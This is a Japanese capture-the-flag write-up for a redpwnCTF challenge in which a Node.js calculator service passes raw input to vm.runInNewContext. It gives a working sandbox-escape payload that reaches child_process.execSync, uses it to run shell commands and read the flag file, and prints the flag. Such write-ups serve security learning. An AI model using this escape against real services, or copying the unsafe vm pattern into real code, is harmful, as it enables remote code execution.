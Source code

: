 # CaaSiNO:misc:402pts
Who needs regex for sanitization when we have VMs?!?!  
The flag is at /ctf/flag.txt  
nc 2020.redpwnc.tf 31273  
[calculator.js](calculator.js)  

# Solution
ncすると計算機のようだ。  
ソースは以下のようになっている。  
```JavaScript:calculator.js
const vm = require('vm')
const readline = require('readline')

const rl = readline.createInterface({
  input: process.stdin,
  output: process.stdout
})

process.stdout.write('Welcome to my Calculator-as-a-Service (CaaS)!\n')
process.stdout.write('This calculator lets you use the full power of Javascript for\n')
process.stdout.write('your computations! Try `Math.log(Math.expm1(5) + 1)`\n')
process.stdout.write('Type q to exit.\n')
rl.prompt()
rl.addListener('line', (input) => {
  if (input === 'q') {
    process.exit(0)
  } else {
    try {
      const result = vm.runInNewContext(input)
      process.stdout.write(result + '\n')
    } catch {
      process.stdout.write('An error occurred.\n')
    }
    rl.prompt()
  }
})
```
runInNewContextに直接inputが渡っているため、jsでRCEできないか考える。  
以下でRCE(ls -al)が可能となった。  
```JavaScript
const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').execSync('ls -al').toString()
```
問題文の通り/ctf/flag.txtを読む。  
```bash
$ nc 2020.redpwnc.tf 31273
Welcome to my Calculator-as-a-Service (CaaS)!
This calculator lets you use the full power of Javascript for
your computations! Try `Math.log(Math.expm1(5) + 1)`
Type q to exit.
> const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').execSync('cat /ctf/flag.txt').toString()
flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}

> q
```

## flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}
